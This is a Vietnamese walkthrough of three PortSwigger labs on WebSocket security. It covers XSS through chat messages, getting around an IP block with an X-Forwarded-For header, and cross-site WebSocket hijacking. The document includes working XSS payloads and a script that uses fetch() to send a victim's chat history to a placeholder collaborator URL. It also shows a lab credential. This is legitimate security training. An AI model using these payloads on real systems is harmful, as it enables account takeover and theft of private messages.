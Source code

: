 ```yaml
---
title: 'Web10: WebSockets security vulnerabilities'
tags: [web10]

---
```


# **1. Lab: Manipulating WebSocket messages to exploit vulnerabilities**
>This online shop has a live chat feature implemented using [WebSockets](https://portswigger.net/web-security/websockets).
Chat messages that you submit are viewed by a support agent in real time.
To solve the lab, use a WebSocket message to trigger an `alert()` popup in the support agent's browser.
>![image](https://hackmd.io/_uploads/H1BWZwLUA.png)

>Truy cập bài lab, ta thấy có 1 chức năng **Live chat**, không cần đăng nhập mà ta vẫn có thể chat với mọi người: ![image](https://hackmd.io/_uploads/BJjk-vU8A.png)

>Có thể thấy được các message được truyền qua WebSocket: ![image](https://hackmd.io/_uploads/Sk5obwLL0.png)

>Kiểm tra source `chat.js` ta thấy các message được render thông qua **innerHTML** và không có bất kì cơ chế validate message nào. Ta có thể nghĩ ngay nó khả năng bị dính lỗ hổng DOM XSS: ![image](https://hackmd.io/_uploads/B14NXvL8A.png)

>Kiếm tra cách mà trang web render message: ![image](https://hackmd.io/_uploads/ryl_Xw8U0.png)

>Gửi message với XSS payload để test: `<img src=1 onerror=alert(1)>`: ![image](https://hackmd.io/_uploads/HJmv4DLIA.png)

>Lúc này, ta đã XSS thành công: ![image](https://hackmd.io/_uploads/SJ7YEDL8A.png)

> Hoàn thành bài lab: ![image](https://hackmd.io/_uploads/rkgcNDUU0.png)

# **2. Lab: Manipulating the WebSocket handshake to exploit vulnerabilities**
>This online shop has a live chat feature implemented using [WebSockets](https://portswigger.net/web-security/websockets).
It has an aggressive but flawed XSS filter.
To solve the lab, use a WebSocket message to trigger an `alert()` popup in the support agent's browser
![image](https://hackmd.io/_uploads/HyLpVDI8A.png)

>Thử send message bằng payload ở lab 1:  `<img src=1 onerror=alert(1)>`, thì lần này server đã validate tin nhắn, và chặn luôn IP mình: 
>![image](https://hackmd.io/_uploads/SJLawDL80.png)
>![image](https://hackmd.io/_uploads/B1zjvDU8C.png)

>Ta sẽ thao tác lại các bước bắt tay giữa client-server để giao tiếp như các bước sau:
> * Reconnect: ![image](https://hackmd.io/_uploads/S156dwL8R.png)
> * Thêm header `X-Forwarded-For: 127.0.0.1` để bypass IP block.: ![image](https://hackmd.io/_uploads/rJteYPLL0.png)
> * Kết nối lại thành công: ![image](https://hackmd.io/_uploads/HJ_XKD8LC.png)

>Từ đó, ta sẽ thử lần lượt các payload để XSS, mỗi khi bị block IP thì lại lặp lại thao tác bypass. Cho tới khi thử tới payload: `<img src=1 oNeRrOr=alert`1`>` thì server không còn validate nó nữa: ![image](https://hackmd.io/_uploads/r1OhFPIIC.png)

>Trigger thành công XSS và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/HyHlcDILC.png)

# **3. Lab: Cross-site WebSocket hijacking**
>This online shop has a live chat feature implemented using [WebSockets](https://portswigger.net/web-security/websockets).
To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a [cross-site WebSocket hijacking attack](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) to exfiltrate the victim's chat history, then use this gain access to their account.
![image](https://hackmd.io/_uploads/Hkt3xu8IR.png)

>Mỗi session live chat sẽ được lưu lịch sử dựa vào session cookie: 
>![image](https://hackmd.io/_uploads/rkE6MOL8R.png)

>Chat thử nội dung bất kì và thoát ra. Quay lại đoạn chat ta sẽ thấy history sẽ được load: ![image](https://hackmd.io/_uploads/Hynl7dIU0.png)

>Bây giờ ta sẽ tiến hành thực hiện CSWSH(Cross-site WebSocket hijacking) để lừa nạn nhân khiến nó gửi history đoạn chat về domain của mình controll.

>Khi bắt đầu hay quay lại live chat, client sẽ gửi server `READY`.
>![image](https://hackmd.io/_uploads/SJfwXdIIA.png)

>Ta sẽ viết payload thực hiện gửi `READY` đến web socket url trước rồi khi nó load tin nhắn thì tận dụng sự kiện `onmessage` để trả tất cả message về Collaborator.
```
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

>Lưu payload vào exploit-server: ![image](https://hackmd.io/_uploads/H1Z0Q_LUC.png)

>Thử **View exploit** ta thấy lịch sử chat của mình đã được gửi về Collaborator => Attack thành công.
>![image](https://hackmd.io/_uploads/HkypEu8LA.png)

>**Deliver exploit to victim** và ta nhận được lịch sử chat của nạn nhân. Tìm được message chứa mật khẩu của của `carlos`: ![image](https://hackmd.io/_uploads/BkogruI8C.png)

>Có được mật khẩu, tiến hành đăng nhập thành công vào tài khoản `carlos:nj5gi94ow6854x6btmmv` và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/S1jmHu88C.png)
